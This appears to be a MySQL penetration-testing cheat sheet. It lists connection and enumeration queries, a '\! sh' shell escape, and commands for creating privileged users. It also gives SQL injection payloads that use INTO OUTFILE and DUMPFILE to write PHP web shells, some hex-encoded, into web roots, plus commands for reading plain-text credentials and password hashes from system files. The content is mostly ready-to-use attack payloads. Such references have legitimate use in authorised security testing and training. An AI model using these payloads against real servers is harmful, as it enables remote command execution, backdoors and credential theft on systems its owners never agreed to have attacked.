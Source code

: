 # Basic Information
MySQL is an open-source relational database management system (RDBMS) used to store, manage, and retrieve data.

## Ports
```
3306
33060
```

## Connection

```sh
# mysql-client
mysql -u <hostname> -u root
mysql -u <hostname> -u root@localhost
```

# Enumeration

```sql
-- Version
SELECT version();
SELECT @@version();

-- Get databases
SHOW databases;

-- User
SELECT user();

-- Get users, permissions and hahes
SELECT * FROM mysql.user;

-- Permission
SHOW GRANTS;
SHOW GRANTS FOR "root"@"localhost";
SHOW GRANTS FOR CURRENT_USER();

-- From DB
SELECT * FROM mysql.user WHERE user="root";

-- Get users with file_priv
SELECT user,file_priv FROM mysql.user WHERE file_priv="Y";

-- Get users with Super_priv
SELECT user,Super_priv FROM mysql.user WHERE Super_priv="Y";

-- Database Name
SELECT database(); 

-- List functions
SELECT routine_name FROM information_schema.routines WHERE routine_type = "FUNCTION";

-- @Functions not from sys. db
SELECT routine_name FROM information_schema.routines WHERE routine_type = "FUNCTION" AND routine_schema != "sys";

-- Get shell
\! sh
```



  

# Privilege Escalation

## Create User and Give Privileges

```sql
CREATE USER test identified BY "test";

GRANT SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by "mysql" WITH GRANT OPTION;
```


## Command Execution

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"

[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'

[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -

[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'


[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'

[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```


# Extracting MySQL Credentials From Files

Inside _/etc/mysql/debian.cnf_ you can find the **plain-text password** of the user **debian-sys-maint**

```bash
cat /etc/mysql/debian.cnf
```

You can **use these credentials to login in the MySQL database**.

Inside the file: _/var/lib/mysql/mysql/user.MYD_ you can find **all the hashes of the MySQL users** (the ones that you can extract from mysql.user inside the database)_._

You can extract them doing:

```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```


# References

- [https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
- [https://dev.mysql.com/doc/](https://dev.mysql.com/doc/)
- [ https://learn.microsoft.com/en-us/sql/?view=sql-server-ver17](  https://learn.microsoft.com/en-us/sql/?view=sql-server-ver17)